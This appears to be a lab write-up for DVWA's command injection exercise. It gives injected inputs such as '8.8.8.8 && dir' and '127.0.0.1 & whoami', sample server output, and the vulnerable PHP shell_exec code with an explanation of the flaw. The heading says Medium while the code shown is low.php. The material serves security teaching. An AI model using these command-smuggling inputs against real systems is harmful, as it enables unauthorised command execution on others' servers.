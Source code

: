 # Command Injection - Medium

## Attack Steps

1. **Open the DVWA Command Injection page**  
   Navigate to:
http://localhost/dvwa/vulnerabilities/exec
 
2. **Enter the payload** in the input field:  
```bash
8.8.8.8 && dir
```

3. Click the **Submit** button.

4. Observe the output You should see the ping results followed by the directory listing from the DVWA server, for example:

    ```bash 
    Volume in drive C has no label.
    Volume Serial Number is XXXX-XXXX

    Directory of C:\xampp\htdocs\DVWA\vulnerabilities\exec

    01/01/2025  10:00 AM    <DIR>          .
    01/01/2025  10:00 AM    <DIR>          ..
               0 File(s)              0 bytes
    ```

## Vulnerable Code Analysis

### File:
`C:\xampp\htdocs\DVWA\vulnerabilities\exec\source\low.php`

#### Key Vulnerability Points:

```php
 <?php

if( isset( $_POST[ 'submit' ] ) ) {

    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
    
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    } else { 
    
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    }  
}
?> 
```

### Explanation
- The code takes direct user input `$target = $_REQUEST['ip'];` and passes it straight into a shell command without any validation or sanitisation.  
- The value of `$target` is concatenated into the `ping` command string inside `shell_exec()`, e.g.:  
    ```php
    shell_exec('ping -c 3 ' . $target);
    ```  
- This can be exploited using a payload such as:  
    ```
    127.0.0.1 & whoami
    ```  
    - The command executed by the server becomes:  
      ```
      ping -c 3 127.0.0.1 & whoami
      ```  
    - After the ping runs, `whoami` will also execute, revealing the username of the process running PHP.  
- Causes:  
    - No input validation or sanitisation on `$target`, so arbitrary commands can be injected.  
    - Direct insertion of user input into a shell command allows attackers to append extra commands using operators like `&&`, `;`, or `|`.  This is OS dependant 
    - Not using safe functions like `escapeshellarg()` or input whitelisting means special characters are interpreted by the shell.  
